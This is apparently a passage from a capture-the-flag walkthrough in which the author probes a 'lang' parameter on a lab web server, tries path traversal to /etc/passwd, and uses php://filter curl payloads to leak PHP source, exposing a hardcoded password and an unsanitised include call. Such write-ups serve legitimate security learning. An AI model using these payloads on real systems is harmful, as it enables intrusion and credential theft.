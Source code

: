 One of the lines has been commented out. From the looks of it, it uses the lang parameter to change the page’s language. In this case, passing it fr changes the language to French. I figured fr probably corresponded to fr.php which was identified by gobuster. I gave it a shot and sure enough the language changes to French:

```
root@kali:~/pwn# curl "http://`cat target.txt`?lang=fr"
.
.
.
      <main role="main" class="inner cover">
        <h1 class="cover-heading">Coming soon</h1>
        <p class="lead">
          Prochaine ouverture du plus grand marché du vibranium. Les produits viennent directement du wakanda. Restez à l'écoute!        </p>
        <p class="lead">
          <a href="#" class="btn btn-lg btn-secondary">Learn more</a>
        </p>
      </main>
.
.
.
```

Since lang is reading the contents of a local file, I made the assumption that this was vulnerable to some kind of local file inclusion attack. I tried passing it variations of “../../../etc/passwd%00” but no luck there. So then I tried using php filters which turned out to be more promising. The contents of fr.php were returned Base-64 encoded, and decoding it revealed the contents of fr.php:

```
root@kali:~/pwn# curl -s "http://`cat target.txt`/?lang=php://filter/convert.base64-encode/resource=fr" | head -1
PD9waHAKCiRtZXNzYWdlPSJQcm9jaGFpbmUgb3V2ZXJ0dXJlIGR1IHBsdXMgZ3JhbmQgbWFyY2jDqSBkdSB2aWJyYW5pdW0uIExlcyBwcm9kdWl0cyB2aWVubmVudCBkaXJlY3RlbWVudCBkdSB3YWthbmRhLiBSZXN0ZXogw6AgbCfDqWNvdXRlISI7
root@kali:~/pwn# curl -s "http://`cat target.txt`/?lang=php://filter/convert.base64-encode/resource=fr" | head -1 | base64 -d
<?php

$message="Prochaine ouverture du plus grand marché du vibranium. Les produits viennent directement du wakanda. Restez à l'écoute!";
```

Great! The only other PHP file I was aware of at this time was index.php, so I decided to grab it and see if its contents could move me further into gaining a foothold into the system:

```
root@kali:~/pwn# curl -s "http://`cat target.txt`/?lang=php://filter/convert.base64-encode/resource=index" | head -1 | base64 -d
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
.
.
.
```
